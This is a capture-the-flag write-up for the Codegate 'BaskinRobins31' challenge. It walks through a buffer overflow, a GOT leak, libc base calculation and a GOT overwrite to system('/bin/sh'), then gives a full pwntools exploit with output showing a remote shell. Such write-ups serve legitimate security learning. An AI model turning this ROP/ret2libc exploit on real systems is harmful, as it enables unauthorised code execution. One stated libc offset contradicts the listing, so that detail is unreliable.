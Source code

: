 ```bash
file BaskinRobins31
```
>BaskinRobins31: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4abb416c74a16aaa8b4c9c6c366bed445c306037, not stripped

this task  involves leaking a libc function’s address from the GOT, and using it to determine the addresses of other functions in libc that we can return to.

The vulnerability is in the your_turn() function, where read() is allowed to write 0x190 (400 bytes) into a 0x96 (150 bytes) buffer
the following code shows the vulnerable part of the function 
```assembly
mov    edx,0x96 ;150 bytes 
mov    esi,0x0 ;fill buffer with 0
mov    rdi,rax ;copy adr of buffer to rdi 
call   0x4006f0 <memset@plt> ;memset(rdi,0,0x96)
```
**The high level solution to exploiting this is as follows:**
1. Leak the address of a library function in the GOT. In this case, we’ll leak puts()’s GOT entry
2. Get libc’s base address so we can calculate the address of other library functions. 
3. Compute system()'s address 
4. Overwrite a GOT entry’s address (puts) with system()’s address
5. Write **/bin/sh** to writeable area , in this case .bss
6. Invoke system("/bin/sh")


**Leaking a libc address** <br>
Grab puts()’s entry in the GOT:

```bash
$ objdump -R BaskinRobins31 |grep "puts"
0000000000602020 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
If we can write puts()’s GOT entry back to us,We can do that by overwriting your_turn()’s saved return pointer to setup a ret2plt; in this case, write@plt. 
Since we’re exploiting a 64-bit binary, we need to populate the RDI, RSI, and RDX registers with the arguments for write(). 
So we need to return to a ROP gadget that sets up these registers, and then we can return to write@plt.<br>
**Get libc’s base address** <br>
Next we need to calculate libc’s base address in order to get the address of any library function, or even a gadget, in libc.
```bash
$ ldd BaskinRobins31 
	linux-vdso.so.1 =>  (0x00007ffc10bb0000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8688442000)
	/lib64/ld-linux-x86-64.so.2 (0x00005621769b1000)
```

/lib/x86_64-linux-gnu/libc.so.6 contains the offsets of all the functions available to us in libc. To get puts()’s offset, we can use readelf:

```bash
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6|grep "puts"
   186: 000000000006f690   456 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   404: 000000000006f690   456 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   475: 000000000010bbe0  1262 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   651: 000000000010d590   703 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1097: 000000000006e030   354 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1611: 000000000006e030   354 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2221: 00000000000782b0    95 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
```
puts()’s offset is at 0x6e030. Subtracting this from the leaked puts()’s address will give us libc’s base address.
To find the address of any library function, we just do the reverse and add the function’s offset to libc’s base address. 
So to find system()’s address, we get its offset from libc.so.6, and add it to libc’s base address.

**Overwrite a GOT entry’s address** <br>
Now that we can get any library function address, we can do a ret2libc to complete the exploit. 
We’ll overwrite puts()’s GOT entry with the address of system(), so that when we trigger a call to puts(), it will call system(“/bin/sh”) instead


1.    Overwrite puts()’s GOT entry with the address of system() using read@plt.
2.    Write “/bin/sh” somewhere in memory using read@plt. We’ll use 0x602090 since it’s a writable location with a static address.
3.    Set RDI to the location of “/bin/sh” and return to system().

Here is the final exploit 
```python
#!/usr/bin/python

from pwn import * 

#p=process('./BaskinRobins31')
p=remote("ch41l3ng3s.codegate.kr",3131)
puts_off = 0x06f690
system_off = 0x45390
writeable = 0x602090 #.bss
puts_got = 0x00602020
puts_plt = 0x4006c0
mov_3pop = 0x400877
write_plt = 0x4006d0
read_plt = 0x400700

payload = ""
payload += "A"*(176) #Junk
payload += p64(0xcafebabe) #rbp
payload += p64(mov_3pop) # mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x1) #rdi
payload += p64(puts_got) #puts@got  => addr to read from 
payload += p64(0x8) #rdx-number of bytes to be written to stdout
payload += p64(write_plt) #write@plt



#Stage 1 :overwrite puts@got with system_adr
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi stdin 
payload += p64(puts_got) #puts@got ==> addr to write to 
payload += p64(0x8) #size to be read
payload += p64(read_plt) #read@plt

#Stage 2 :write /bin/sh to .bss

payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(0x0) #rdi 
payload += p64(writeable) #rsi adr to write '/bin/sh' to 
payload += p64(0x8) #size to be read from stdin
payload += p64(read_plt) #read@plt


#Stage 3 : set RDI to "/bin/sh" and call system()
payload += p64(mov_3pop) #mov rbp, rsp; pop rdi; pop rsi; pop rdx; ret;
payload += p64(writeable) #rdi ==>adr of '/bin/sh'
payload += p64(0x1) #junk
payload += p64(0x1) #junk
payload += p64(puts_plt) #puts@got which become system()



p.sendline(payload)
p.recvuntil(":(")
leaked_addr = p.recv(8)
puts_libc=hex(u64(leaked_addr))[:-4]
print "[+] Puts is at :"+puts_libc
libc_base = int(puts_libc,16) - puts_off
print "[+] Libc base is", hex(libc_base)
system_addr = libc_base + system_off
print "[+] System() is at", hex(system_addr)
print "[+] Sending system_addr", hex(system_addr)
p.send(p64(system_addr))
print "[+] Sending '/bin/sh'"
p.send("/bin/sh")
p.interactive(">> ")
#flag{The Korean name of "Puss in boots" is "My mom is an alien"}

```
I’ve commented the code heavily, so hopefully that will explain what’s going on ;) 
```
anisboss@anisboss-PC:/tmp/codegate/pwn$ python exploit.py 
[+] Opening connection to ch41l3ng3s.codegate.kr on port 3131: Done
[+] Puts is at :0x7f4c8f872690
[+] Libc base is 0x7f4c8f803000
[+] System() is at 0x7f4c8f848390
[+] Sending system_addr 0x7f4c8f848390
[+] Sending '/bin/sh'
[*] Switching to interactive mode
\x00\x00>> ls
BaskinRobins31
flag
>> cat flag
flag{The Korean name of "Puss in boots" is "My mom is an alien"}
```
